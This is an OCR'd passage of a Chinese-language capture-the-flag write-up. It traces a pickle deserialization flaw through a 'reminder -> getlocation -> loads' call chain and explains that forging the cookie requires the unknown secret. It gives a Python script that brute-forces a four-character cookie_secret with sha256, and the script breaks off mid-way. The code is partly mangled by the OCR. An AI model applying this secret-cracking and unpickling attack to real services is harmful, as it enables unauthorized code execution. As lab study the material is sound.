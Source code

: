 
漏洞的根源在
```

*def*loads(strs):
    reload(pickle)
    files = StringIO(strs)
    unpkler = pickle.Unpickler(files)
    *print*strs,files,unpkler
    unpkler.dispatch[pickle.REDUCE] = _hook_call(
        unpkler.dispatch[pickle.REDUCE])
    *return*unpkler.load()

```

而漏洞的调用顺序是
**reminder -> getlocation -> loads**

但是这边有一个条件
![](README/luffy7.png)
在这里面location和digest都可以通过cookie调用，但是cookie_secret是不知道的，追踪了一下
发现cookie_secret中的值是四位包含了大小写字母和数字的字符串，可以通过已知条件进行爆破
首先我们发送一下luffy看一下返回的cookie
![](README/luffy9.png)


爆破cookie_secret
```
*import*string
*import*time
*from*hashlib *import*sha256
*import*sys

char = string.ascii_letters + string.digits


time_start=time.time()

*for*i *in*char:
    *for*j *in*char:
        *for*x *in*char:
            *for*y *in*char:
                flag = i+j+x+y

                sha = sha256(*"%s%s"*% (*"Vmx1ZmZ5CnAwCi4="*, flag)).hexdigest()
```